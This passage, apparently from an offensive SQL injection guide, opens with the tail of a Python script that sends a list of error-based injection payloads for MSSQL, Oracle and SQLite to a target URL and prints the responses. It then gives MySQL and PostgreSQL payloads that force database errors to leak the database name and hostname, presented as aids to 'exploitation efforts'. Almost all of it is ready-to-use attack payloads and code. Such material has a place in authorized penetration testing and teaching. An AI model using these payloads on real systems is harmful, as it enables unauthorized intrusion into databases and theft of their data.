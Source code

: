 ```python
    "; SELECT CAST('text' AS INT) -- ",
    "; RAISERROR('Error generated', 16, 1) -- ",
    # Oracle
    "' UNION SELECT UTL_INADDR.get_host_address('invalid_host') FROM dual -- ",
    "' UNION SELECT XMLType('<invalid><xml>') FROM dual -- ",
    "' UNION SELECT SYS.DBMS_ASSERT.noop('invalid_input') FROM dual -- ",
    # SQLite
    "' UNION SELECT SUBSTR('text', -1, 1) -- ",
    "' UNION SELECT POW('text', 2) -- ",
    "' UNION SELECT DATE('invalid_date') -- ",
]

for payload in payloads:
    response = requests.get(url, params={"id": payload})
    print(f"Payload: {payload}")
    print(f"Response: {response.text}\n")
```

## Extracting Database Name and Hostname Using Forced Errors
These advanced error-based SQL injection techniques, you can extract crucial information such as the database name and hostname, which can further aid in your exploitation efforts.

### MySQL

#### Extracting Database Name
- Use error-based injection to extract the database name.
  ```sql
  ' AND (SELECT 1 FROM (SELECT COUNT(*), CONCAT((SELECT database()), 0x3a, FLOOR(RAND(0)*2)) x FROM information_schema.tables GROUP BY x) y) --
  ```

#### Extracting Hostname
- Use error-based injection to extract the hostname.
  ```sql
  ' AND (SELECT 1 FROM (SELECT COUNT(*), CONCAT((SELECT @@hostname), 0x3a, FLOOR(RAND(0)*2)) x FROM information_schema.tables GROUP BY x) y) --
  ```

### PostgreSQL

#### Extracting Database Name
- Use error-based injection to extract the current database name.
  ```sql
  ' AND 1=CAST((SELECT current_database()) AS INT) --
  ```

#### Extracting Hostname
- PostgreSQL does not directly provide a function for hostname, but you can use other metadata queries or built-in extensions like `inet_server_addr`.
  ```sql
  ' AND 1=CAST((SELECT inet_server_addr()) AS INT) --
  ```
